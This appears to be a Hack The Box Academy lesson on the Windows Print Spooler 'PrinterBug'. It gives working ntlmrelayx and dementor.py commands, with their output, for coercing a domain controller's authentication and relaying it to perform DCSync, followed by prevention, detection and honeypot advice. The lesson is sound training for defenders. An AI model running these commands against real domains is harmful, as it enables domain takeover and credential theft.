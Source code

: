 ## Description

The [Print Spooler](https://learn.microsoft.com/en-us/windows/win32/printdocs/print-spooler) is an old service enabled by default, even with the latest Windows Desktop and Servers versions. The service became a popular attack vector when in 2018, `Lee Christensen` found the `PrinterBug`. The functions [RpcRemoteFindFirstPrinterChangeNotification](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/b8b414d9-f1cd-4191-bb6b-87d09ab2fd83) and [RpcRemoteFindFirstPrinterChangeNotificationEx](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rprn/eb66b221-1c1f-4249-b8bc-c5befec2314d) can be abused to force a remote machine to perform a connection to any other machine it can reach. Moreover, the `reverse` connection will carry authentication information as a `TGT`. Therefore, any domain user can coerce `RemoteServer$` to authenticate to any machine. Microsoft's stance on the `PrinterBug` was that it will not be fixed, as the issue is "by-design".

The impact of `PrinterBug` is that any Domain Controller that has the Print Spooler enabled can be compromised in one of the following ways:

1. Relay the connection to another DC and perform DCSync (if `SMB Signing` is disabled).
2. Force the Domain Controller to connect to a machine configured for `Unconstrained Delegation` (`UD`) - this will cache the TGT in the memory of the UD server, which can be captured/exported with tools like `Rubeus` and `Mimikatz`.
3. Relay the connection to `Active Directory Certificate Services` to obtain a certificate for the Domain Controller. Threat agents can then use the certificate on-demand to authenticate and pretend to be the Domain Controller (e.g., DCSync).
4. Relay the connection to configure `Resource-Based Kerberos Delegation` for the relayed machine. We can then abuse the delegation to authenticate as any Administrator to that machine.

---

## Attack

In this attack path, we will relay the connection to another DC and perform `DCSync` (i.e., the first compromise technique listed). For the attack to succeed, SMB Signing on Domain Controllers must be turned off.

To begin, we will configure `NTLMRelayx` to forward any connections to DC2 and attempt to perform the DCSync attack:

  Print Spooler & NTLM Relaying

```shell-session
LeDaav@htb[/htb]$ impacket-ntlmrelayx -t dcsync://172.16.18.4 -smb2support

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

![NTLMRelay starting](https://academy.hackthebox.com/storage/modules/176/A10/startntlmrelayx.png)

Next, we need to trigger the `PrinterBug` using the Kali box with `NTLMRelayx` listening. To trigger the connection back, we'll use [Dementor](https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py) (when running from a non-domain joined machine, any authenticated user credentials are required, and in this case, we assumed that we had previously compromised Bob):

  Print Spooler & NTLM Relaying

```shell-session
python3 ./dementor.py 172.16.18.20 172.16.18.3 -u bob -d eagle.local -p Slavi123

[*] connecting to 172.16.18.3
[*] bound to spoolss
[*] getting context handle...
[*] sending RFFPCNEX...
[-] exception RPRN SessionError: code: 0x6ab - RPC_S_INVALID_NET_ADDR - The network address is invalid.
[*] done!
```

![Dementor](https://academy.hackthebox.com/storage/modules/176/A10/dementor.png)

Now, switching back to the terminal session with `NTLMRelayx`, we will see that DCSync was successful:

![Hashes](https://academy.hackthebox.com/storage/modules/176/A10/hashes.png)

---

## Prevention

Print Spooler should be disabled on all servers that are not printing servers. Domain Controllers and other core servers should never have additional roles/functionalities that open and widen the attack surface toward the core AD infrastructure.

Additionally, there is an option to prevent the abuse of the `PrinterBug` while keeping the service running: when disabling the registry key `RegisterSpoolerRemoteRpcEndPoint`, any incoming remote requests get blocked; this acts as if the service was disabled for remote clients. Setting the registry key to 1 enables it, while 2 disables it:

![Prevent via registry key](https://academy.hackthebox.com/storage/modules/176/A10/registry.png)

---

## Detection

Exploiting the `PrinterBug` will leave traces of network connections toward the Domain Controller; however, they are too generic to be used as a detection mechanism.

In the case of using `NTLMRelayx` to perform DCSync, no event ID `4662` is generated (as mentioned in the DCSync section); however, to obtain the hashes as DC1 from DC2, there will be a successful logon event for DC1. This event originates from the IP address of the Kali machine, not the Domain Controller, as we can see below:

![Detection](https://academy.hackthebox.com/storage/modules/176/A10/detectDCSync.png)

A suitable detection mechanism always correlates all logon attempts from core infrastructure servers to their respective IP addresses (which should be static and known).

---

## Honeypot

It is possible to use the `PrinterBug` as means of alerting on suspicious behavior in the environment. In this scenario, we would block outbound connections from our servers to ports `139` and `445`; software or physical firewalls can achieve this. Even though abuse can trigger the bug, the firewall rules will disallow the reverse connection to reach the threat agent. However, those blocked connections will act as signs of compromise for the blue team. Before enforcing anything related to this exploit, we should ensure that we have sufficient logs and knowledge of our environment to ensure that legitimate connections are allowed (for example, we must keep the mentioned ports open between DCs, so that they can replicate data).

While this may seem suitable for a honeypot to trick adversaries, we should be careful before implementing it, as currently, the bug requires the machine to connect back to us, but if a new unknown bug is discovered, which allows for some type of Remote Code Execution without the reverse connection, then this will backfire on us. Therefore, we should only consider this option if we are an extremely mature organization and can promptly act on alerts and disable the service on all devices should a new bug be discovered.